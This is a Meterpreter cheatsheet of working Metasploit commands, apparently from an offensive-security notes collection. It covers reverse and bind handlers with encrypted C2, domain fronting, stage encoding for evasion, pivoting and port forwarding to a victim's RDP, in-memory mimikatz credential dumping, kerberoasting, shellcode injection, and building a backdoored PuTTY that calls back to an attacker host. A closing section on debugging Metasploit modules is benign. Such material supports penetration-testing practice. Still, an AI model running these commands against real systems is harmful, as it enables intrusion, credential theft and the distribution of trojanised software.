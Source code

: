# Meterpreter

* [https://buffered.io/posts/staged-vs-stageless-handlers/](https://buffered.io/posts/staged-vs-stageless-handlers/)
* [https://blog.rapid7.com/2015/03/25/stageless-meterpreter-payloads/](https://blog.rapid7.com/2015/03/25/stageless-meterpreter-payloads/)
* [https://www.darkoperator.com/blog/2015/6/14/tip-meterpreter-ssl-certificate-validation](https://www.darkoperator.com/blog/2015/6/14/tip-meterpreter-ssl-certificate-validation)
* [https://xakep.ru/2020/07/03/metasploit-guide/](https://xakep.ru/2020/07/03/metasploit-guide/)
* [https://diablohorn.com/2013/02/21/we-bypassed-antivirus-how-about-idsips/](https://diablohorn.com/2013/02/21/we-bypassed-antivirus-how-about-idsips/)




## Cheatsheet

Quick handler launch:

```
msf > handler -H eth0 -P 443 -p windows/x64/meterpreter/reverse_https [-e x64/xor] [-x]
```

Bind RC4 payload & handler through SOCKS proxy:

```
$ msfvenom -p windows/x64/meterpreter/bind_tcp_rc4 RHOST=10.10.13.37 LPORT=443 RC4PASSWORD='Passw0rd!' -f exe -o rev.exe
msf > use exploit/multi/handler
msf exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter/bind_tcp_rc4
msf exploit(multi/handler) > set RHOST 192.168.1.11
msf exploit(multi/handler) > set LPORT 443
msf exploit(multi/handler) > set RC4PASSWORD Passw0rd!
msf exploit(multi/handler) > set PROXIES socks5:127.0.0.1:1080
msf exploit(multi/handler) > run
```

Generate a custom SSL certificate for encrypting C2 communications:

```
$ openssl req -batch -new -newkey rsa:4096 -days 365 -nodes -x509 -keyout cert.key -out cert.crt
$ cat cert.key cert.crt > cert.pem
$ msfvenom -p ... HandlerSSLCert=./cert.pem StagerVerifySSLCert=true ...
msf exploit(multi/handler) > set HandlerSSLCert /home/snovvcrash/cert.pem
msf exploit(multi/handler) > set StagerVerifySSLCert true
```

Automation (about `exploit` flags [here](https://github.com/rapid7/metasploit-framework/blob/4049c41ac1b6f12566b055dc5442192072ea5d78/lib/msf/ui/console/command_dispatcher/exploit.rb#L17-L27)):

{% code title="auto.rc" %}
```
// sudo msfconsole -qr auto.rc
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_winhttps
set LHOST 10.10.13.37
set LPORT 443
set EXITFUNC thread
set StageEncoder x64/zutto_dekiru
set EnableStageEncoding true
set HandlerSSLCert /home/snovvcrash/cert.pem
set StagerVerifySSLCert true
set AutoRunScript post/windows/manage/migrate
set ExitOnSession false
exploit -jz
```
{% endcode %}

Start SOCKS server (default is SOCKS5):

```
msf > use auxiliary/server/socks_proxy
msf auxiliary(server/socks_proxy) > set SRVHOST 127.0.0.1
msf auxiliary(server/socks_proxy) > run -j
```

Handle connections with **domain fronting**:

```
$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=legitimate.com LPORT=443 HttpHostHeader=cdn.provider.net -f exe -o https.exe
msf exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter/reverse_https
msf exploit(multi/handler) > set LHOST legitimate.com
msf exploit(multi/handler) > set OverrideLHOST legitimate.com
msf exploit(multi/handler) > set OverrideRequestHost true
msf exploit(multi/handler) > set HttpHostHeader cdn.provider.net
msf exploit(multi/handler) > run
```

Migrate to a different architecture:

```
msf > use post/windows/manage/archmigrate
msf post(windows/manage/archmigrate) > set SESSION 1
msf post(windows/manage/archmigrate) > run
```

Switch to the next [transport](https://github.com/rapid7/metasploit-framework/wiki/Meterpreter-Transport-Control) killing current session:

```
meterpreter > transport add -t reverse_tcp -l 10.10.13.37 -p 9002
meterpreter > transport list
msf > handler -H eth0 -P 9002 -p windows/x64/meterpreter/reverse_tcp
meterpreter > transport next
```

Reverse local port `3389` (on Victim, `192.168.1.11`) to local port `43389` (on Attacker):

```
meterpreter > portfwd add -l 43389 -p 3389 -r 192.168.1.11
[*] Local TCP relay created: :43389 <-> 192.168.1.11:3389
$ xfreerdp /u:administrator /p:'Passw0rd!' /v:127.0.0.1:43389
```

Routing:

```
meterpreter > run autoroute -s 192.168.10.0/24
meterpreter > run autoroute -p
Or
msf5 > route add 192.168.10.0/24 1
msf5 > route
```

Execute binary from memory:

```
meterpreter > execute -cimH -d calc.exe -f /home/snovvcrash/www/mimikatz.exe -a '"sekurlsa::logonPasswords full" "exit"'
```

[Execute](https://github.com/b4rtik/metasploit-execute-assembly) .NET assembly from memory:

```
msf > use post/windows/manage/execute_dotnet_assembly
msf post(windows/manage/execute_dotnet_assembly) > set DOTNET_EXE /home/snovvcrash/www/Rubues.exe
msf post(windows/manage/execute_dotnet_assembly) > set ARGUMENTS "kerberoast /usetgtdeleg /format:hashcat"
msf post(windows/manage/execute_dotnet_assembly) > set SESSION 1
msf post(windows/manage/execute_dotnet_assembly) > run
```

Inject shellcode:

```
msf > use post/windows/manage/shellcode_inject
msf post(windows/manage/shellcode_inject) > set SHELLCODE /home/snovvcrash/www/shellcode.bin
msf post(windows/manage/shellcode_inject) > set SESSION 1
msf post(windows/manage/shellcode_inject) > run
```

Backdoored legit executable with delayed Stdapi loading:

```
$ wget https://the.earth.li/~sgtatham/putty/latest/w64/putty.exe
$ msfvenom -p windows/x64/meterpreter_reverse_http LHOST=eth0 LPORT=8088 EXITFUNC=thread -e x64/xor_dynamic -i 10 -k -x putty.exe -f exe -o evilputty.exe
$ sudo msfconsole -qx 'use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter_reverse_http; set LHOST eth0; set LPORT 8088; set AutoLoadStdapi false; set EXITFUNC thread; run'
```




## Debug

* [https://github.com/deivid-rodriguez/pry-byebug](https://github.com/deivid-rodriguez/pry-byebug)

{% embed url="https://youtu.be/QzP5nUEhZeg?t=2190" %}

```
$ gem install pry-byebug
$ vi ~/.pry-byebug
```

{% code title="pry-byebug" %}
```ruby
if defined?(PryByebug)
  Pry.commands.alias_command 'c', 'continue'
  Pry.commands.alias_command 's', 'step'
  Pry.commands.alias_command 'n', 'next'
  Pry.commands.alias_command 'f', 'finish'
end

 # Hit Enter to repeat last command
Pry::Commands.command /^$/, "repeat last command" do
  _pry_.run_command Pry.history.to_a.last
end
```
{% endcode %}

```
$ cp -r /usr/share/metasploit-framework/ /opt
$ vi /opt/metasploit-framework/msfconsole
...add "require 'pry-byebug'"...
$ mkdir -p ~/.msf4/modules/exploits/linux/http/
$ cp /usr/share/metasploit-framework/modules/exploits/linux/http/packageup.rb ~/.msf4/modules/exploits/linux/http/p.rb
$ vi ~/.msf4/modules/exploits/linux/http/p.rb
...add "binding.pry"...
```
